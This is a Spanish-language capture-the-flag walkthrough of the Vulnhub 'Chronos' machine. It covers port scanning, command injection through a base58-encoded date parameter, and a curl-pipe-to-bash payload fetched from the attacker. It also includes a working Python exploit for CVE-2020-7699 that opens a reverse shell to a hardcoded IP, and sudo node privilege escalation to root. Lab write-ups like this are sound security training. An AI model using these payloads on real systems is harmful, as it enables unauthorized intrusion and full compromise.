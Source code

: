 ```yaml
---
title: Vulnhub - Chronos
author: cotes
date: 2023-10-08 17:51:00 +0800
categories: [Writeup, Vulnhub, Medium]
tags: [Linux, 'Inyección de Comandos', 'RCE (CVE-2020-7699)']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Medium/Chronos/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Chronos Machine Logo
---
```


Máquina Linux de nivel **Medium** de Vulnhub.

Técnicas usadas: **NodeJS, RCE (CVE-2020-7699)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Medium/Chronos/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Medium/Chronos/02-versions.png)

c. Si analizamos el código fuente de la página del puerto **8000**, veremos que se tramita cierta información

```js
var _0x5bdf='http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL'
```

> Añadiremos el host **chronos.local** al fichero `/etc/hosts` y la información la decodearemos con [**CyberChef**](https://gchq.github.io/CyberChef/)
{: .prompt-info }

* La información viaja encodeada en **base58**

    ![](/assets/images/Vulnhub/Medium/Chronos/03-cyberchef.png)

* Lo que trataremos de realizar será una **Inyección de Comandos**, para saber si la página es vulnerable ejecutaremos un ping hacia nuestra máquina, en la cual, esteraremos previamente en escucha con **tcpdump**

    ![](/assets/images/Vulnhub/Medium/Chronos/04-rce.png)

* El payload anterior lo enviaremos a través de **Burp Suite**

    ![](/assets/images/Vulnhub/Medium/Chronos/05-steps.png)

d. Nos entablamos un reverse shell

* Encodeamos el siguiente payload: "`curl http://<IP Atacante>|bash`'+Today is %A, %B %d, %Y %H:%M:%S.'"

    ![](/assets/images/Vulnhub/Medium/Chronos/06-reverse.png)

### Escalada de Privilegios 💹

a. Si inspeccionamos la máquina nos encontramos con una versión2 del sitio web de chronos

```bash
www-data@chronos:/opt$ ls
chronos  chronos-v2
```

* Si vemos el código llegamos a un versión de una biblioteca usada

    ```bash
    www-data@chronos:/opt/chronos-v2/backend$ cat package.json 
    
    <SNIP>
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
    ```

    * Datos a tener en cuenta
        + [x] El sitio web no es accesible desde nuestra máquina de atacante.
        + [x] Se ejecuta por el puerto 8080
        + [x] La versión de la biblioteca usada es vulnerable a [CVE-2020-7699](https://dev.to/boiledsteak/simple-remote-code-execution-on-ejs-web-applications-with-express-fileupload-3325)

b. Transferimos el script de python para llegar a ejecutar comandos y con esto nos enviaremos una reverse shell

```bash
www-data@chronos:/tmp$ cat rce.py 
import requests

### commands to run on victim machine
cmd = 'bash -c "bash -i >& /dev/tcp/192.168.100.70/4444 0>&1"'

print("Starting Attack...")
### pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

### execute command
requests.get('http://127.0.0.1:8080')
print("Finished!")
```

* Lo ejecutamos y nos ponemos en escucha previamente con nc

    ![](/assets/images/Vulnhub/Medium/Chronos/07-shell.png)


c. Inspeccionamos nuestros privilegios a nivel de sudoers

```bash
imera@chronos:/opt/chronos-v2/backend$ sudo -l

User imera may run the following commands on chronos:
    (ALL) NOPASSWD: /usr/local/bin/npm *
    (ALL) NOPASSWD: /usr/local/bin/node *
```

* Vemos en [**GTFOBins**](https://gtfobins.github.io/gtfobins/node/#sudo) una forma de escalar privilegios usando **node**

    ```bash
    imera@chronos:/opt/chronos-v2/backend$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
    whoami
    root
    ```